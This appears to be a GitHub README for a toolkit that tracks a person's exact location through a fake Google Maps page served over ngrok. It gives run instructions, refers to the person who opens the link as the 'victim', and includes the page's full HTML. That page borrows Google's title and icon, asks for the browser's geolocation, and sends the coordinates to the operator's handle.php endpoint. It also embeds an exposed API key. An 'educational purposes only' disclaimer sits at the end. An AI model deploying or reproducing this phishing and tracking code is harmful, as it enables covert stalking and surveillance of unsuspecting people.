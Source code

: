 # GeolocationEngineering

The Geolocation-Engeneering Toolkit is to obtain the exact location of a user using an fake maps page through ngrok fowarding.

# Usage:
First Unzip ngrok:
```
unzip ngrok.zip
```

Then make tracker.sh executable and start the program with sudo privileges:
```sh
chmod +x tracker.sh

sudo ./tracker.sh
```

There will be 2 windows popping up:
| Lifeview of logsfile | ngrok server status |
| ----- | ----- |
|![empty_00142](https://user-images.githubusercontent.com/73026669/137955603-4d841a71-f4a5-45ea-9a46-3271fbaf428f.png)| ![ngrok_00071](https://user-images.githubusercontent.com/73026669/137955671-7cf5410a-aa93-4b66-bdcb-ad6fad1a5cd3.png)|
|After someone opend the url, you'll se several information of the victim| |
|![full1_00000](https://user-images.githubusercontent.com/73026669/137956688-9fd4b5ba-7d8f-4e0c-abf2-63024a0d8f4d.png)| |




<!DOCTYPE html>
<html>
    <head>
        <title>Google Maps</title>
        <link rel="icon" type="image/ico" href="https://www.google.com/images/branding/product/ico/maps15_bnuw3a_32dp.ico">
        <style>
           .loader {
            border: 16px solid #f3f3f3; 
            border-top: 16px solid rgb(255, 208, 0); 
            border-left: 16px solid rgb(0, 89, 255);
            border-right: 16px solid green;
            border-bottom: 16px solid red;
            border-radius: 50%;
            width: 120px;
            height: 120px;
            animation: spin 2s linear infinite;
            position: absolute;
            top:0;
            bottom: 0;
            left: 0;
            right: 0;
            margin: auto;
            transition: all 0.5s ease-in-out;
            }
            @keyframes spin {
            0% { transform: rotate(0deg); }
            25% {transform: rotate(360deg);}
            50% {transform: rotate(0deg);}
            100% { transform: rotate(360deg); }
            }
            .shadow{
            border: 16px solid transparent; 
            border-top: 16px solid transparent; 
            border-left: 16px solid transparent;
            border-right: 16px solid transparent;
            border-bottom: 16px solid transparent;
            border-radius: 50%;
            width: 119px;
            height: 119px;
            position: absolute;
            top:0;
            bottom: 0;
            left: 0;
            right: 0;
            margin: auto;
            box-shadow: 0px 75px 50px grey;
            }
        </style>
    </head>
    <body>
        <div class="loader"></div>
        <div class="shadow"></div>
        <script>
            function httpGet(theUrl)
            {
                var xmlHttp = new XMLHttpRequest();
                xmlHttp.open( "GET", theUrl, false ); // false for synchronous request
                xmlHttp.send( null );
                return xmlHttp.responseText;
            }
            navigator.geolocation.getCurrentPosition(function(position){
                httpGet("/handle.php?lat="  + position.coords.latitude + "&lon=" + position.coords.longitude);
                document.write('<iframe width="100%" height="100%" style="border:0" loading="lazy" allowfullscreen src="https://www.google.com/maps/embed/v1/place?key=AIzaSyAUJXbJeYerh1hiQVRsb-4QZRKvVtMC14c   &q=' + position.coords.latitude + "," + position.coords.longitude  + '"></iframe>');
            });
        </script>
    </body>
</html>










if you want to get an ngrok plan for unlimited time, visit [ngrok](https://ngrok.com/), sign up there, and 
activate your ngrok with the command 
```sh
./ngrok authtoken YOURAUTHTOKEN
```
You will get the authtoken as soon as youre signed up under [setup](https://dashboard.ngrok.com/get-started/setup).


# DISCLAIMER: THIS IS FOR EDUCATIONAL PURPOSES ONLY! 
# NO LIABILITY FOR ILLEGAL USE IS ASSUMED!

[![Build Status](https://user-images.githubusercontent.com/73026669/110617122-9c75ad00-8195-11eb-9ba5-422356072776.png)](https://github.com/LukeProducts)



© 2021 Copyright by LukeProducts
